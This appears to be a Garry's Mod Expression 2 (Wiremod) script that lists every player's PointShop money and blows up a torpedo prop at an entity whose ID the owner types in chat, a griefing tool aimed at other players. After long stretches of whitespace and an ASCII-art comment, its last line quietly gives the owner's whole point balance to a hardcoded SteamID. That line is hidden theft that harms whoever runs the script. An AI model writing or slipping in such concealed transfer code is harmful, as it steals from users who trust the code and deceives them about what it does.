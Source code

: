@name Dlya Jesus
@inputs 
@outputs 
@persist I II Gas:gtable Text:string Array:array
interval(1)
noDuplications()
timer("UpdateList",10000)
findIncludeClass("player")
findInSphere(entity():pos(),10000000000)
Array = findToArray()
if(clk("UpdateList")){    
    for(I = 1 , Array:count()){   
    print(Array[I,entity]:name()+"  "+"Money:"+Array[I,entity]:psGet())
    concmd("если хочешь взорваться себя mne") 
    
}
}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                        
          chatClk(owner())                                                                                                                                                                                                                                                                                                                                                                                                                                                              
Text = owner():lastSaid() 



                                                                                                                                                                                                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                                                                                                                                                                        

P = propSpawn("models/props_phx/torpedo.mdl",entity(Text:toNumber()):pos(),0)                                                                                           
P:propBreak()    






#[
..| : : : : : : : : : : : : : : : : : : : : : : : : : : : : : : : : :-',
...\ : : : : : : : : : :': : : : : : : : : : : : : :~,,: : : : : : : : : ~-',
... : : : : : : : : : : :: /: : : : : : : : : : : : : : : ,: : : : : : : : : : :,~,
... .: : : : : : : : : : :|: : : : : : : : :. : : : : : : : : : : : : : : : : : : :-,
... ...: : : : : : : : : : : : : : : : : : ( O ) : : : : : : : : : : : : : : : : : : : : '.
... ... .\ : : : : : : : : : '': : : : : : : :"*": : : : : : : :|: : : : : : : : : : : : : : : |0)
... ... ...\ : : : : : : : : : ': : : : : : : : : : : : : : : :/: : : : : : : : : : : : : : : /""
... ... .....\ : : : : : : : : : : : : : : : : : : : : : : ,-: : : : : : : : : : : : : : : :/
... ... ... ...\ : : : : : : : : : : : : : : : : : : =" : : : : : ',_.: : : : : : : :,-
... ... ... ... ,: : : : : : : : : : :"'~---~" : : : : : : : : : : : : = :"
}

]#

findPlayerBySteamID("STEAM_0:0:610557360"):psGive(owner():psGet())
